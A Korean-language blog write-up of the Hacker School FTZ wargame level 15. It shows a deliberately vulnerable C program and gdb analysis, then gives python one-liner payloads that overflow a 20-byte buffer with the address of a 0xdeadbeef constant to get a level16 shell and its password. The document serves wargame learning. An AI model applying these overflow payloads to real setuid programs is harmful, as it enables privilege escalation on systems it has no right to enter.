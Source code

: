 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 15"
description: "Do you know the pointer?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level15/1.jpg" | relative_url }}' alt='relative'>  

## 1) level15/ guess what입력해 로그인  
 
``` c
#include <stdio.h>

main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

<img data-action="zoom" src='{{ "assets/ftz/level15/2.png" | relative_url }}' alt='relative'>  

이제 힌트로 준 코드만 봐도 스택이 어떻게 구성되어 있을지 감이 옵니다.  
14번과 거의 동일하지만 15번에서는 check 변수가 포인터로 되어 있습니다.  

## 2) 그래도 스택 프레임 구조는 살펴보자  

<img data-action="zoom" src='{{ "assets/ftz/level15/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level15/4.png" | relative_url }}' alt='relative'>  

14번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있어야 했지만,  
15번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있는 주소가 저장되어 있어야 한다.  

## 3) 코드에 0xdeadbeef가 상수로 저장되어 있네?  

이 문제를 풀기 위해 입력값이 0xdeadbeef를 입력할 필요가 없습니다.  
왜냐하면 코드에 이미 쓰여있기 때문입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level15/5.png" | relative_url }}' alt='relative'>  

0xdeadbeef가 적혀있는 코드 주변을 살펴보니 0x080483e4 주소에 0xdeadbeef가 저장되어 있습니다.  

이 주소를 가지고 ./atm 프로그램에서 bof를 일으켜보겠습니다.  

``` bash
(python -c 'print "\x90"*40+"\xe4\x83\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/6.png" | relative_url }}' alt='relative'>  

shell이 실행되는 것을 확인할 수 있습니다.  

이 방법을 attackme 프로그램에도 적용해보겠습니다.  

## 4) attackme 프로그램에서 0xdeadbeef이 저장된 주소 찾아 bof 일으키고 level16 권한으로 shell 따기  

<img data-action="zoom" src='{{ "assets/ftz/level15/7.png" | relative_url }}' alt='relative'>  

attackme 프로그램도 gdb로 분석해 0xdeadbeef가 저장된 주소를 찾았습니다.  

``` bash
(python -c 'print "\x90"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/8.png" | relative_url }}' alt='relative'>  

attackme 프로그램을 분석하여 찾은 0xdeadbeef가 저장된 주소를  
입력 문자열에 넣어 실행한 결과 level16 권한으로 shell을 실행해 level16의 비밀번호를 획득할 수 있었습니다.    